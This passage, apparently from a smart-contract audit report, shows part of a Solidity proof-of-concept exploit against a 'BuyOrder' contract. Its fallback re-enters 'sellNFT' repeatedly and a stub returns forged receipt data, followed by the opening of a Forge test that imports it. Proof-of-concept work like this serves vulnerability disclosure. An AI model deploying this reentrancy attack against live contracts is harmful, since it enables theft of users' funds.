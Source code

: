```solidity
        uint receiptID;
        uint attachedNFT;
        uint lockedAmount;
        uint lockedDate;
        uint decimals;
        address vault;
        address underlying;
    }

    constructor() {}

    function setBuyOrder(address _buyOrder) public {
        buyOrder = BuyOrder(_buyOrder);
    }

    fallback() external payable {
        if (counter < 2) {
            counter++;
            buyOrder.sellNFT(0);
        }

        if (counter == counterMax) {
            counter++;
            buyOrder.sellNFT(1);
        } 

    }

    function getDataByReceipt(uint receiptID) public view returns (receiptInstance memory) {
        uint lockedAmount;
        if (receiptID == 1) {
            lockedAmount = 1;
        } else {
            lockedAmount = 0;
        }

        uint lockedDate = 0;
        uint decimals = 0;
        address vault = address(this);
        address underlying = address(this);
        bool OwnerIsManager = true;
        return receiptInstance(receiptID, 0, lockedAmount, lockedDate, decimals, vault, underlying);
    }

}
```

Forge test:
```solidity
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import "forge-std/StdCheats.sol";

import {BuyOrder, buyOrderFactory} from "@contracts/buyOrders/buyOrderFactory.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20Mock} from "@openzeppelin/contracts/mocks/token/ERC20Mock.sol";
import "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";

import {Exploit} from "./exploit.sol";

contract BuyOrderTest is Test {
    buyOrderFactory public factory;
```